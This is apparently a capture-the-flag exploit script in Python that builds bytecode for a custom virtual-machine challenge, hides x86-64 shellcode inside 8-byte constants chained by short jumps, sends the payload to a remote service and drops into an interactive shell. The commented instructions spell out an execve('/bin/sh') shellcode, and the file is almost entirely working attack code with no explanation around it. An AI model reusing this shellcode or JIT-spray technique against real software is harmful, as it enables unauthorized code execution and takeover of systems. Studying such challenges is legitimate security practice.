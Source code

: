 ```py

def IF():
    global bytecode  
    bytecode += b'IF\n'  

def ENDIF():
    global bytecode  
    bytecode += b'ENDIF\n'  

def TIMES(num):
    global bytecode  
    bytecode += b'TIMES ' + str(num).encode() + b' TIMES 90 TIMES 90 TIMES 90 ADD 0xdeadbeefdeadbeef' + b'\n'  

def TIMES2(num):
    global bytecode  
    bytecode += b'TIMES ' + str(num).encode() + b' TIMES 90 TIMES 57 ADD 0xdeadbeefdeadbeef' + b'\n'  

def TIMES3(num):
    global bytecode  
    bytecode += b'TIMES ' + str(num).encode() + b' TIMES 52 ADD 0xdeadbeefdeadbeef' + b'\n'  

def TIMES4(num):
    global bytecode  
    bytecode += b'TIMES ' + str(num).encode() + b' ADD 0xdeadbeefdeadbeef' + b'\n'  


######################################################################################

p = connect()

ADD(0x39eb90ff31480000) # xor    rdi,rdi
ADD(0x39ebf63148c03148) # xor    rax,rax - xor    rsi,rsi
ADD(0x39ebd23148509090) # xor    rdx,rdx - push rax
ADD(0x39eb0068732fb890) # mov    eax,0x68732f 
ADD(0x39eb20e0c1489090) # shl    rax,0x20 
ADD(0x39eb6e69622f0548) # add    rax,0x6e69622f 
ADD(0x39ebc03148509090) # push rax - xor rax, rax
ADD(0x39eb5f5490909090) # push rsp - pop rdi
ADD(0x39eb050f003bb866) # mov    ax,0x3b - syscall

ADD(0x10000000000000000-0x9470da9321ce9c6)

IF()
TIMES(90)
TIMES2(90)
TIMES3(90)
TIMES4(29)         
ENDIF()

p.sendlineafter(b'Code:', bytecode)

######################################################################################

p.interactive()
``` 
